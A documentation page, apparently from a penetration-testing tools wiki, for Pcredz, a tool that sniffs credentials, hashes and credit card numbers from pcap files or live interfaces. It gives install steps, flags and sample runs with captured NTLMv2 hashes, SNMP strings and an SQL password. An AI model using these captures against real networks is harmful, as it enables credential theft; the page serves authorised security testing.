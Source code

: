 ```yaml
---
title : "Pcredz"
# pre : ' '
description : "This tool extracts Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface."
date : 2021-08-04T13:42:43+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Pcredz

This tool extracts Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface.

### Features

* Extract from a pcap file or from a live interface IPv4 and IPv6:
  * Credit card numbers
  * POP
  * SMTP
  * IMAP
  * SNMP community string
  * FTP
  * HTTP (NTLM/Basic/HTTP Forms)
  * NTLMv1/v2 (DCE-RPC,SMBv1/2,LDAP, MSSQL, HTTP, etc)
  * Kerberos (AS-REQ Pre-Auth etype 23) hashes.

* All hashes are displayed in a hashcat format (use -m 7500 for kerberos, -m 5500 for NTLMv1, -m 5600 for NTLMv2).

* Log all credentials and information to a file (CredentialDump-Session.log).

* Log credentials in the logs/ folder. MSKerb.txt, NTLMv1.txt and NTLMv2.txt can be directly fed to hashcat.

## Installation

#### Requirements

```plain
apt install python3-pip && sudo apt-get install libpcap-dev && python3 -m pip install Cython && python3 -m pip install python-libpcap
```

When running Python3.10 it can happen that Pcredz states `libpcap` is not installed. This is a [known issue](https://github.com/lgandx/PCredz/issues/48). The fix for this is cloning `python-libpcap` from source and installing it.

```plain
git clone https://github.com/caizhengxin/python-libpcap.git
python3 setup.py install
```

#### Download tool

```plain
git clone https://github.com/lgandx/PCredz.git
```

## Usage

```plain
python3 Pcredz [-h] [-f FNAME | -d DIR_PATH | -i INTERFACE] [-c] [-t] [-v] [-o OUTPUT_PATH]
```

## Flags

```plain
Pcredz 2.0.2 Author: Laurent Gaffie

options:
  -h, --help      show this help message and exit
  -f FNAME        Pcap file to parse
  -d DIR_PATH     Pcap directory to parse recursivly
  -i INTERFACE    interface for live capture
  -c              deactivate CC number scanning (Can gives false positives!)
  -t              Include a timestamp in all generated messages (useful for correlation)
  -v              More verbose.
  -o OUTPUT_PATH  output directory
```

## Examples

### Live on interface

For example you can start this live capture with the following tools all at the same time:

* [Impacket - SMBserver.py]({{< ref "smbserver-py" >}})
* [Responder]({{< ref "responder" >}})

```plain
$ sudo python3 Pcredz -i enp0s31f6
Pcredz 2.0.2
Author: Laurent Gaffie
Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com
This script will extract NTLM (HTTP,LDAP,SMB,MSSQL,RPC, etc), Kerberos,
FTP, HTTP Basic and credit card data from a given pcap file or from a live interface.

CC number scanning activated

Pcredz live capture started, using:enp0s31f6
Starting timestamp (1639734999.1870687) corresponds to 12/17/21 10:56:39
protocol: tcp 10.10.10.102:36188 > 10.10.10.103:445
NTLMv2 complete hash is: john-do::OFFSEC:aaaaaaaaaaaaaaaa:41DBF91ACAE926FCF1BB4D7580A4BC96:0101000000000000[...]
```

### Analyzing .PCAP(NG) files

Note: first change owner for the input PCAP(NG) file. `sudo chown -R $USER:$USER *.pcap*`

#### HTTP Basic authentication

```plain
$ python3 ./Pcredz -f capture.pcapng
Pcredz 2.0.2
Author: Laurent Gaffie
Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com
This script will extract NTLM (HTTP,LDAP,SMB,MSSQL,RPC, etc), Kerberos,
FTP, HTTP Basic and credit card data from a given pcap file or from a live interface.

CC number scanning activated

Unknown format, trying TCPDump format

protocol: tcp 10.10.10.10:50114 > 52.201.75.114:80
Found  HTTP Basic authentication: johndo:johndo

capture.pcapng parsed in: 0.32 seconds (File size 1.94 Mo).
```

#### SNMP(v1-v2)

```plain
$ python3 ./Pcredz -f capture.pcapng
Pcredz 2.0.2
Author: Laurent Gaffie
Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com
This script will extract NTLM (HTTP,LDAP,SMB,MSSQL,RPC, etc), Kerberos,
FTP, HTTP Basic and credit card data from a given pcap file or from a live interface.

CC number scanning activated


Parsing: temp/capture.pcapng
Unknown format, trying TCPDump format

protocol: udp 172.17.1.71:55016 > 172.17.11.13:161
Found SNMPv2 Community string: ABbJm18w

protocol: udp 172.17.1.70:58218 > 172.17.11.12:161
Found SNMPv1 Community string: ABbJm18w

protocol: udp 172.17.1.126:60189 > 172.17.210.128:161
Found SNMPv1 Community string: public

protocol: udp 172.17.1.70:58808 > 172.17.210.117:161
Found SNMPv2 Community string: public
```

#### NTLMv2

```plain
$ python3 ./Pcredz -f capture.pcapng
Pcredz 2.0.2
Author: Laurent Gaffie
Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com
This script will extract NTLM (HTTP,LDAP,SMB,MSSQL,RPC, etc), Kerberos,
FTP, HTTP Basic and credit card data from a given pcap file or from a live interface.

CC number scanning activated


Parsing: capture.pcapng
Unknown format, trying TCPDump format

protocol: tcp 10.51.222.19:49254 > 10.51.223.29:80
NTLMv2 complete hash is: SA-DA::OFFSEC:717b58d1234658b:0CDFE112345678909742C4EBE4:01010000000000007E9CBA2A3E0FD7017720946CFDAC6FB7000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E007610064000000000000000000
```

#### Microsoft SQL

```plain
$ python3 Pcredz -f capture.pcapng                         
Pcredz 2.0.2
Author: Laurent Gaffie
Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com
This script will extract NTLM (HTTP,LDAP,SMB,MSSQL,RPC, etc), Kerberos,
FTP, HTTP Basic and credit card data from a given pcap file or from a live interface.

CC number scanning activated

Unknown format, trying TCPDump format

protocol: tcp 10.10.10.1:445 > 10.10.10.2:58484
Found a password in an SMB read operation:

[Netwerk]
Max=0
0=AD;DC=offsec,DC=nl

[OFFSECMASTERDB]
Soort=          SQLSERVER
SQLServerName=  SQLSERVER-PROD.offsec.nl
SQLDatabaseName=OFFSECMASTERDB
SQLUserName=    SQLADMIN
SQLPassWord=    aMEWMj7J?Cz7hU?44KwD3js8KyxXddhG
```

## URL List

* [Github.com - PCredz](https://github.com/lgandx/PCredz)
* [HTTPbin.org - HTTP Basic Auth testing page](http://httpbin.org/basic-auth/user/passwd)
